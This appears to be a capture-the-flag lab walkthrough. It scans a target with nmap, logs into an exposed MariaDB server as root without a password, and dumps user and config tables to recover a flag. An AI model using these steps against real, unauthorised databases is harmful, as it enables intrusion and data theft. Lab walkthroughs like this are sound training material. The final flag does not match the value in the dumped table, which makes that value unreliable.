



we start with `nmap`, using this command, i didn't use `-p-` and also `-sV`, because it takes to much time, used only `-sC` :
```bash
nmap -sC --min-rate=10000 $target
```



As you can see, port `3306`, which has *mysql* service, is opened.

```
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 151
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, FoundRows, Speaks41ProtocolNew, InteractiveClient, IgnoreSigpipes, SupportsTransactions, SupportsCompression, LongColumnFlag, Support41Auth, SupportsLoadDataLocal, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: q1<{v_Y~2x)_'@OKjS@(
|_  Auth Plugin Name: mysql_native_password
```

We try to connect to the *mysql* using `root` username, and hope we won't need to provide password, `-h` stands for host, `-u` is username, `-P` is port, and i also disabled the verification of the ssl, because it causes problems:
```bash
mysql -h $target -u root -P 3306 --skip-ssl-verify-server-cert
``` 



Okay, so first let's view the databased using `show databases;`
```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (1.449 sec)
```

Now, let's use `htb` table, using `use htb;`, and then show the tables in this database, using `show tables;`
```
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.170 sec)
```

Okay, now we want to fetch all the data from `users` table, using `select * from users;`:
```
MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.211 sec)
```

The flag isn't here, so let's fetch the data from `config` table, using `select * from config;`:
```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.255 sec)
```

And we find the flag.



**Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
